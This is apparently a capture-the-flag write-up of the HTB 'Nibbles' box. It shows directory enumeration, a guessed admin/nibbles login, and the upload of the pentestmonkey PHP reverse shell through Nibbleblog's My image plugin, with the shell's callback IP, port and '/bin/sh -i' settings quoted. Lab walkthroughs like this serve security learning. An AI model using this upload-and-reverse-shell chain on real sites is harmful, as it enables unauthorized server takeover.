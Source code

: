 ```shell
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]

===============================================================
2022/06/17 23:57:32 Finished
===============================================================
```

found lots of interest dir

`/nibbleblog/admin` shows this index hahahahahah
![[Pasted image 20220617235114.png]]

and look up to `/nibbleblog/admin.php`

![[Pasted image 20220618002241.png]]

got log in page.
and id/pass are admin/nibbles. this is from guessing....

![[Pasted image 20220618005645.png]]

## Upload a shell in nibbleblog
how to link are here -> https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/
first, activate `My image` plugin
![[Pasted image 20220618005831.png]]

upload `php reverse shell` with [this](https://github.com/pentestmonkey/php-reverse-shell)
and dont forget to change codes
```shell
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.32';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

![[Pasted image 20220618010021.png]]
![[Pasted image 20220618010030.png]]

and, reverse shell script are in `/nibbleblog/content/private/plugins/my_image`.
